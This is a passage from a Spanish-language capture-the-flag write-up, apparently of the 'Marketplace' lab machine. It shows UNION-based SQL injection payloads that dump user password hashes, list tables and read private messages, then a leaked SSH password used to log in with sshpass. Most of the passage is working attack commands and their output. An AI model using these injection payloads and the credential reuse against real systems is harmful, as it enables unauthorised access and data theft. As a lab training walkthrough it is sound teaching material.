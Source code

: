 ```bash
union select 1,group_concat(username,0x3a,password),3,4 from users-- -

system:$2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/
TNDBWIUmB4z.R0DT0MSGIGzsgW,michael:
$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q,jake:$2b$10$/
DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG,test:
$2b$10$zrsXw3xA0oKEYp6.2x3YFOMGYMXFAyG1S0XCPre97HG7m1vl6DdBu
```
Esto esta un poco desordenado, ordenemos esto para ver que tenemos.
```bash
❯ cat credentials.txt
system:$2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW
michael:$2b$10$yaYKN53QQ6ZvPzHGAlmqiOwGt8DXLAO5u2844yUlvu2EXwQDGf/1q
jake:$2b$10$/DkSlJB4L85SCNhS.IxcfeNpEBn.VkyLvQ2Tk9p2SDsiVcCRb4ukG
test:$2b$10$zrsXw3xA0oKEYp6.2x3YFOMGYMXFAyG1S0XCPre97HG7m1vl6DdBu
```
Vale tenemos 3 usuarios, si intentamos romper esto hashes no vamos a poder ya que son contraseñas robustas, sigamos enumerando la base de datos, si volvemos a enumerar las tablas hay otra de mensajes.
```bash
union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='marketplace'-- -

items,messages,users
```
Veamos las columnas de esta tabla.
```bash
union select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema='marketplace' and table_name='messages'-- -

id,user_from,user_to,message_content,is_read
```
Veamos el contenido de la columna message_content
```bash
union select 1,group_concat(message_content),3,4 from messages-- -

Hello! An automated system has detected your SSH password is too weak and
needs to be changed. You have been generated a new temporary password. Your new
password is: @b_ENXkGYUCAv3zJ,Thank you for your report. One of our admins will
evaluate whether the listing you reported breaks our guidelines and will get
back to you via private message. Thanks for using The Marketplace!,Thank you
for your report. We have reviewed the listing and found nothing that violates
our rules.
```
## Intrusion
Tenemos una credencial en texto claro y tenemos 3 usuarios, veamos a quien pertenece esta credencial.

Probamos esta contraseña para el usuario jake y obtenemos acceso a la maquina.
```bash
❯ sshpass -p '@b_ENXkGYUCAv3zJ' ssh jake@10.10.113.110
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Mar 15 20:45:48 UTC 2023

  System load:  0.08               Users logged in:                0
  Usage of /:   87.1% of 14.70GB   IP address for eth0:            10.10.15.148
  Memory usage: 28%                IP address for docker0:         172.17.0.1
  Swap usage:   0%                 IP address for br-636b40a4e2d6: 172.18.0.1
  Processes:    96
```